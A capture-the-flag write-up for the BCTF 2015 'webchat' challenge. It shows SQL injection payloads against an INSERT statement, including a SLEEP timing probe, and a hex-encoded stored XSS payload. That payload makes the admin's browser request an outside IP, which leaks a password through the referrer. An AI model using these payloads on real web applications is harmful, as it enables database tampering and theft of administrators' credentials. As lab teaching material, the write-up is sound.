 ## BCTF 2015 - webchat (Web 325)
##### 21-23/03/2015 (48hr)
___

### Description: 
http://146.148.60.107:9991/
___
### Solution


It's a classic SQLi on INSERT statement:
```
foo' 'bar
foo',0x61),('foo
foo',0x61, 0x62),('foo
bar'), ('asd					--> 35146 foo: bar (it doesn't send the last one)
bar', 0x62 ), (0x61,'asd
bar'), (SLEEP(2)), ('bla		--> works! returns after 2 secs! :)
```
The SQL statement is:
```
	insert into t values('nick', 'msg')
	insert into t values('nick', 'msg'),('asd')
```

Let's try XSS because we know that the admin will read our messages:
```
'),(0x3c696d67207372633d22687474703a2f2f3132382e3231312e3138392e32312f666f6f223e),('	
--> (hex encode of: <img src="http://128.211.189.21/foo"> )
```

From the logs we can see the flag in referral:
```
http://127.0.0.1:9991/review?pass=QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==&id=40379
```

We base64 decode the pass: QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ== and we get the flag: 
**BCTF{xss_is_not_that_difficult_right}**
___
